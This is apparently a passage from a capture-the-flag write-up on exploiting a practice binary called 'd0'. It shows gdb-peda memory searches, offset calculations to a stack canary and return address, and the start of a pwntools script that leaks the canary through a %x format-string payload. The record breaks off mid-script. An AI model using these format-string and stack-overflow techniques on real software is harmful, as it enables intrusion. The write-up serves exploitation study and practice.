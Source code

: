 ```
Breakpoint 2, 0x0804857f in pivot ()
gdb-peda$ find escape
Searching for 'escape' in: None ranges
Found 5 results, display max 5 items:
 [heap] : 0x804b008 ("escape\nx.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x"...)
[stack] : 0xffffcfe2 ("escape")
[stack] : 0xffffd295 ("escape/def_ovr/d0/d0")
[stack] : 0xffffdc3f ("escape/def_ovr/d0")
[stack] : 0xffffdfe3 ("escape/def_ovr/d0/d0")
gdb-peda$ x/x $ebp-0x16
0xffffcfe2: 0x65
gdb-peda$ info frame
Stack level 0, frame at 0xffffd000:
 eip = 0x804857f in pivot; saved eip = 0x80485b1
 called by frame at 0xffffd020
 Arglist at 0xffffcff8, args: 
 Locals at 0xffffcff8, Previous frame's sp is 0xffffd000
 Saved registers:
  ebp at 0xffffcff8, eip at 0xffffcffc
gdb-peda$ find 0x6032d100
Searching for '0x6032d100' in: None ranges
Found 4 results, display max 4 items:
 mapped : 0xf7ffb954 --> 0x6032d100 
[stack] : 0xffffc8dc --> 0x6032d100 
[stack] : 0xffffc930 --> 0x6032d100 
[stack] : 0xffffcfec --> 0x6032d100 
```

So we can see that our buffer overflow starts at 0xffffcfe2. We see that the return address in the eip register is at 0xffffcffc. We can also see that the stack canary that we need to overwrite is at 0xffffcfec (the rest are at a lower address than the start of our buffer, and since buffer overflows work towards higher addresses we can't write to it). So to calculate the offsets.

```
>>> 0xffffcffc - 0xffffcfe2
26
>>> 0xffffcfec - 0xffffcfe2
10
```

So we can see, that we have 26 bytes untill the return address, and 10 bytes to the stack canary. So we will have to write 10 characters, then the stack canary, then 12 more characters (keep in mind the the canary itself takes up 4 characters), and then the address of the discovery function. It would be best to put this all together in a script, which is what I have done. I have modified the format string read to put the canary between two unique strings, that way we can easily parse it.

```
#Import pwntools and regular expressions
from pwn import *
import re

#Designate which elf we are using, and run it
target = process("./d0")
elf = ELF("./d0")
context(binary=elf)

#Send the format string exploit to leak the canary
target.sendline("%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xesc%xape")

#Store the output of the format string memory leak
memleak = target.recvline()
```